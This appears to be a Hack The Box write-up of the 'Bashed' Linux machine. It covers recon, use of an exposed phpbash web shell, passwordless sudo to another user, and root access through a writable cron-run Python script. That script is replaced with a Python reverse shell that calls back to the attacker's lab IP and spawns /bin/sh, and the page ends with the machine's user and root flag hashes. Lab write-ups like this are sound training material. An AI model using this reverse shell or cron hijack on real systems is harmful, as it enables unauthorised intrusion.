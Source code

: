 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : Techniques used, cron-jobs hickjacking, sudo permissions
tags: HTB, linux, python, sudo, cron-job
---
```



# Recon
Nmap scan
```ruby
Nmap scan report for 10.10.10.68
Host is up (0.022s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
```


Dirbuster scan
![](https://lh3.googleusercontent.com/p-Az8pLCCTYFiLlCET_o0v7tApv-cTEcdmdJV-DyvqIGcGfYpQLFuim_jF3KDWhSrIc9DRErwMY7sFOffstVjceAfYJUHs_Vhq3DczRAGGDDFzHDSYkVQBM_bQxo33LG60o7-GYwIkIE4P5ma35h7H8IIstoZ3GIqqcxV4hVvdEMzLKACD07Ki5ASb1GSp5cw9s_XFues8tREQoOtRQdkICwWzdkB7qbYZHdHMw3uh8ZVZ5jNJDbmaOKkWy_RI1LOXoSV3OJU36VXtgpRVqpAu0ciDdHK3MLkUwBavIDFunv4f46pWujHZGUZE68pue4UOVqSbUHLcSptrk3trAd2pEW_cSa6XGIrtvaPOXRtN9i8aUj-j1AxXslr9BReBPU5Q8D_7OalQ3Rhm0crohqJWbyO4y7QpgFBsZErLqMWXjsRzZzmE68X-yvjFlzOYhg6auzm8xjoZIvuq6hi7giF0lPuA7STUGMFxGDKCh-KVV31MIyGSHrwNcLAzr1L2DnwFEJRCXDEloTTtKRHyN3ZPPzWM5owANdFTX6ZkvgfxerDlIc2ucFSwRk3YBESPsRp9bOyVfn3EJpbItc5ynKJMj2ZRjcRIf34EU42mAgBroULlkLojoXL0EzIech5s-8I_dDAxcRxRnRmKY9ydQTsGLE7-5wN8R4diGYsrkIiGEu8Naj2QbRf1U=w533-h340-no)

We access the web app running on port:80 and quickly noticed that is running a `phpbash`. 
Furthermore, we investigate the `dev` folder and we encounter two php scripts deployed
![](https://lh3.googleusercontent.com/rHt8sWBKRtNiW-cqbo5Ww3wBmFYzSUhB5gW15CwDLd9-JIXQmY54qC52-YNjK9696pECh6s9p0KeHLDUo3fsfqqOkNt8kYMZpgFvDEdKuQs5wuKpGXJx5kxaVy3C2eHhPH5_X62cUfFIDVJP_PFu6W24Oqw5R58OxqPuiXtViF_gXJuZSwXqqSqtdfxFpU68uk5Y_29EJAHnoJzSd35SfmrWv--sSeDHYfbAQI8YzWVn-QoURCj39mnEFO61YZ64Uu85aaTJy02XMWVmjZD5H3Q1XdUgwYbr6sAFfl5Z7MbNhSWmJ2UnNdBJdub8rY_pbqprawbxtmp528jocKQKh3p11RrqiNBisZIX9AXH4_l8vpo6tFRMBSR7uGdZGfGF5YtvuaK7kWKr6nhkn3F3rLG-cS5qTg0vOhT6mYtn5cOEHDaXjT8cQ2Na8o1czFGkhvxxDqbeTG8lEAt0JDZNXKl5mmIMrj7mvmTAHxfERjPHRbF1-EoCzAwhApiujhp0KDbDZehlCSPDALwf_I4ircv2v7hUFjUc8wnTu3N9hUXJcaJpMzGgljImPr3JpvAGKKsbFDWehc_w9-1rkOO_wZh8iramVzMs8CiKSmU3tp2R0bnZzOj-nKnASjdQT-MG5AvlZ2sQeHo1aKsbjyQOV6nAHMp9LeU95F-eFho9pVRSOURUWmLIXlM=w468-h295-no)

we run the phpbash script and we find out this is a backdoor shell that connects to the targer machine.
![](https://lh3.googleusercontent.com/-MJGoTGb1t21rtxi0eI5TjHfBSSbn2B11_r2CKwBJ8vhrvPEr1IuoLtMcO1qNyEd2c6B_oTDCLGOfER_sPgXGG7rd5ksOI_CP7KmQa8EKFWSCOOfbp2AOtxJoEF088SES-fvxRFAI9kvdc0hYwViv5PVymG_yliJ9qzHnCXntBTVdzPKqXVfby8X_pPp6dORLK4pfN_PpkeKiNcwQHxnICTdyRJw44AE2najx1NZ7pRGolnKKP56fu7RGHDylQS3WvFdaZgvJ3spQkCWMh_Z7HzUzVPSA-BgtS636OD4IIcwG8EpUKmIiIfv2xjyAHSwzRI8v1R_g0bh2kV-Gyq911x-3b6ob2b_HhZSFBB3TqF-wCKGcUmjFG0V8f00U9hRYQyWEJVzOzJYcj2kWNqzb_KldAX138rsQCCjgClAGm6GBRWyFR7nwHw2HUhDfALGOe5I_VH4j-fUsT4K8vcuz7DPy6aBU8S2k7oWd9smm5LwN8HxelJ7nOPVgfQt9Rn4HZjKLFV8JYT4Ci5ZdAlKghbUN2pIqjBynOQaku-JX0Ce2JdJ_4qtjDVmN-DdExbOkVRIflPTyNHfg9CIeUknY3DfZOm8jFzmhw1T580Lwwd_7fdmaWfXmr_HL9upftTfpcT-csU-vyXGZMe6YiLaoLvsW6rurkKz_9ib1BEMPV6Y03S0PiCwibA=w842-h213-no)

However the shell is not interactive. so I use nectcat to transfer a `tcp_pty.py` python file to satisfied our needs.

![](https://lh3.googleusercontent.com/tqfU55RRL9rnsrmJu14kSTNEuoF163nki3XVFojCv45FcqFyLij2ufqxkxeS0-aP2BtGGhABm6ZKHNuctax8n12a6Oti8S9ZVLKHeUzjHyi-an8RsVjqNgVdlZm8kuI5fPTPIfHi4Tfg_RxFw_ijHbreaggUtIDsloBkgggnJgvgZfjjhpannxal-rJCglRtBCzID7CcICeKXQUMI7YTJq8oUSSJSzAnaZ_Er-0GiOtDllGwAi7sXJ0v8B6Dc04W8I_9SZBwyfpSusi5gtr4vTRnHo3pIyvcHeIUJZLKeW3xfc_dCEdj_THcAtPE7rNgvPzxn3mb9-K92JkJYhiyPGuCh0u6X-1YGHSjth6PO7uq3N20v0ctsR_Pr8RCE0yY5Smw7imYwkttt6UrcC6h99kJcF0tvjyx_pVcCARYb_9JcI6IAkcwRQT--96u0FdN_XUbiRbK0UyvPg-KnyyCcj_NY9ZT4v96woWQQaNf5Vgbq26SCPWsjHyyw3kPDyBZYLtZxhaFOv-GvJldcxz1CptsBgkmpERJkJ51a5QwNg4jQpt1ewnatddS3JhbDxQ3H3QWC51qCXlqeBajw7xIAsJeNvPZq-Ats_L1wLTG7EVlJBXdTJwhxpYqkgpomPIFBYaVaBL-md4K0coBAaG7HUXcO_zwoP8Kv3y1LlmY2Kjyj5W7E4V7Uy0=w894-h397-no)

![](https://lh3.googleusercontent.com/evvfMIper2SfsSvgR5pysRX29meAvgfSb7fTA555xU927NyFVVauAVqEMUp4uAFpNXH9umzzgA-rYKvgw11k_z0x5Lu2aZ3ZmmhOliUDRSQ7s_qQMihu5cGEoEN7EQPYsjRxrP6OaPMitDsz5_RZjnOgc7LoNzpeSRhcaOea3GhrLiVzwdVdvEBM3fgVSdciFjf8_Thv5hNyZ_QTHm-UI0_FI1Dfak_GP_7tLQBrHSn_yvD37WeoEz7g2v73ZN_fRFMChv-EM8R1Yk5DEOsRGJrUnTK9PbmGIb_qz6cBGRT3m3XX0ANTNnb5O1QcZc_K6coXLi1CuXMgUVB40fOT9HgGG1rQBL5DHl9bSiwBOdaP19l87_AygXtR2eNMT3W5Eqo8OahWoXcgz0kBevlAJ7rRJWbDRYZ62fKMnGe7-tPMutiIiYbnFe_JAVJQooXrOGJhvs18sEo2TBMjH91sUsRcRkPBPSS-qRjsnsGuM3HD8ghyB1kHvvSZHA0owPjA1x3uunVQ_wW-nEdD2JqXO-q_TV57spPJVvSPS2XvHCnmWwwAR7BAPKf7WEksMLCwUVsONl7jAhlBgUfYHmSZrbYNXFs6zQSGPDzbbDSqnvbdz77t-Q0Wn130d1559wqYJNuamx2623hSbCC4uwtb7BvCQ1jon8V80BMWkmlBaDYEUKJZyJychsw=w1180-h354-no)


# Exploitation
We run LinuxEnum and we noticed that we are able to sudo commands without passwd for user
**scriptmanager**

![](https://lh3.googleusercontent.com/1vF8x_ngRjD6Fy-Wi-B9fjLE-1M8SX8sa-YcNzPY00epfNJq9h15EDCF3thztjSY0ZSmqX0XaO40qf2_FDighO3qvdll_1-EcXP6MC1WN8XuMPuBWep8GqkDoxicbeuPUxSNyXwP9JZLOuGK5xdFniik6um0xLWMP3O_x-WtoaEx3SEllnoxTW_B3IhjxtyfDhb7yeZIJ4DW4bVzBKPpuaRVKtBZ_RfMgwtDnW-fK7F5a9zRZvh30ffDnEdVEV08meoapAj0s1jbYDRTAHV5ILEmlbAV9J_B66P1OhY6K5QKhVytI9cvJQ4CgTiteyQWSEmmXpt_qgD0b84fXBZ_LYLbBTT5SQ8sBT_s5nVKfvLnVauuSLJ0QnXmxV-wq3zUJS0suSgEUYkxuxrCah56r5_cuAUEnNfyHsWvI3XigoC0AFMU_yq3hYUfBNhB863xrGsBX6hf8DoYhOIprLxMSgXNE9YtULEFDD8Y5b7KMtl_hdFdfiWbcU2uPrD6-Cv3ZHse7mXEWvmpNqgdQaJIkYZnJceGVxdsHGfvjTZnSMFCa8QBKm4XLFLeC1AsYo1v4HWRunbwVQmO7hRIn4CmDZieiJkB5t51CqJ1-h3b5PiK3PhzMWMuJkk-3W-vwTpxYNQrCdi6fEnFNKfTSzp_--LuiXw5Bb2ed8TAZLRZLylhBJMjoiiu5dc=w912-h121-no)

```ruby
sudo -u scriptmanager whoami
```
```ruby
sudo -u scriptmanager bash
```
![](https://lh3.googleusercontent.com/9yx1EPOA3p-E7IO7jwguOezkX13GBLgZoxnMvxiYcrrmBfHROedL9ZClsvMt_vbibWyGTPX1uJ7Z1Fm_2i04TKFYoQsZi7hdTC1xSUKxVzD8zpST9ESyUNbqOzzOFh3drCxDQdrf8cDbRKWu02-qFGHan7yKxZrnZIJeTTqOokdpiSoyPsG-pBX8uxFdhPX3qieWlPOqpRhJYlKVHOkcATLqy15pQGwaFVzYbIZ35J2RPBBT97JFTMJQQzjfYih6bGGGMabT5cKaSxz-4FDtdTA4fTwwtLeOKiXu6T_-x3Z1DIwndh7fNqczc_BDBbM79Sf9RJC8yVl8ZzhNcxFIvXxxVoT6-PT4G95QLTaRWt-oRnSeqSDiPk6YR7rjpGu0BqUsMBsuDsxKaMAiWMJt_HoXXSaNL4sRi19anU44bwIP2eU6LvhtRffbCFUIGubdk_rc5dTQHp4KQqdJHDwlq34sCj_XF7ZZZVBcppg9_yqa6GzM6Lu4Y_Ywf7yhLta4EH1RQXiTIDoFGnBDlD5cbG_BmgELuMlffAHmk4OQE6tVH0evgWkcR2ESTRQohcCa9lPMa7e6aSn4k6_GGufmYM3Cjk1bqef7ToeDc5pwhHrvA8CHwMckwRsLwHrAE8_BTjksJxxVcvxN7k4--YSc1lyXi3L7vaAJdjxH7CvPfhVD86gdKeCcZHE=w603-h243-no)

# Privilege Escalation
As scriptmanager user we locate a script folder that contain 2 insterested files
test.py and test.txt. Test.txt is owned by root but the text.py is owned by scriptmanager
The text.txt file is update every minute so this is a cron job
so we modified the python file to pull to call for a reverse shell
![](https://lh3.googleusercontent.com/G6p-UTwhnYCXBurI6bDEabPozrK9dBjiweY5QT7Fo9ZiVBZcqQjDx-tZm27RsXnik1pwEja8decnNZo8v8Q-9T4qoYU-yWiJlHEmfnjixLKXJ2ksJfaeaRKK5sOJs-jp3-xDyRfRL_1Zk5WZCAxkEpqIxsvXD0uH-fsPpPI_m4eYgNEjtJTGiVmzMSVhMVSFQ4MZuel0iSQkI22PmB9ZUBjqCCp6_u_L10FtTvA3PIXMCIuGKuwVxHL30UF7WjP1va6zJQW9O7Lkx0ba3vNUK3k4S-skgPkuswN1wbV8gBM7RGtdsLhJhy2qvC5Ho-gZx3AAmPyOa3jlG1JQXduQj_xVd24-8SVHxTE25iqGMxOTNmlLxHG3jKLJ-mU2Lgs8A9lJ-ljv1bMZcNyqCiWCpFkEHVnt4aE1w6NuAUNt1P_lbCOgcTolAwIazkeum5D1o_d-w7nXb_NcUfkCvPCpWE8QkkPx-CWxtLAYuOLGRm4fiHLPoOG_sDtY9_bWdBNH0gHdZTL5DIV3K81PGCHB-TGXUJWJnRLmuKsQ-JlJICyVmT4FQAiMI20Wx3-lmLs_wUOH12N-XUoDFzasPwzdVcp65NuwDFm5rB6bwFgnQte77ENC9JCMvKpTaPABsBiMGsdRXKnL_-bNnpCfNJXw8Jo7wLHCsOYuXfpl3yvGUTsmBhLtgS5udVM=w558-h27-no)

```perl
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
![](https://lh3.googleusercontent.com/4spYvwMX11ocp0JnpHnTzPURbWJxRiIaIzhFbkWfPVDwZHKI-4MScg1wEFuujKMpQ2yzxHJd7APAnW5a1JXSXqB5NLTX8ghfxRZWosnCWfdI_HzIF-ORpziOeZlJiDLUt1yMjwD7KfCZ1OLDqZATjxgXCGLBfCNmvltUCdP2szVXF34MiF4ZZRlqgO4fmOT63wckfbvPge6S0R-Q9Bf2KmSv3nRg_BlwJThwpxX8sz2POnU9k6w1FyHlnZbdJ8LNs8nudFtb_qTM4gN9quAE_UeRjTkv-yg4DprYfUBfTMGwWOC5XVU6ApllJItREkEr_ySq-ysIvQkD9nY-Rgb-jxVp7HzcKbjOh-DwnEMU0NWa4IRifxbHeLo7Mi0FP-FvxcJFlUNXv4vw5eQWw6eXXnAxBDNS0da0TFU0l-f5ae3yf6P8Y16m8yM6jYAnC_o_MtpzB6srYIAeEEo8V5soKQLQjDI1yKL4nZqpheR4CtnvmwYhJmUZEUPzCnIkcELNk3FqgRfwUrF43puCwnajrSAX4lv3vBoigJFACJ27R_grvayEH_33HP-bBgn3fYsOHExO9OZkoFAdw0xA4uRkYsxih3V9CoTUJIg-0J78fnv6TE8vF2DF0jYSqefSb7_fhgqb63jdasOfCSBqPOJo78hc9Jcm0b8bynD7pQwOp_RJC0UP3eFBBNE=w607-h194-no)

```ruby
ROOT  "cc4f0afe3a1026d402ba10329674a8e2" 
USER  "2c281f318555dbc1b856957c7147bfc1" 
```
